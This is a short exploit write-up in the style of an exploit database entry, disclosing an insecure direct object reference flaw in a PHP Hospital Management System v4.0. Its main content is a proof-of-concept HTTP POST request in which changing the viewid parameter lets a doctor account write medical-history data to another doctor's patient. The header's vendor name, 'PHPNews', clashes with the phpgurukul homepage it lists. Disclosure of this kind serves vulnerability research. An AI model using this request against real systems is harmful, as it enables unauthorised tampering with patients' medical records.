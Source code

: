 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to add medical history for patient who is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1
...

bp=90&bs=6.9&weight=90&temp=37&pres=AAAAA&submit=
```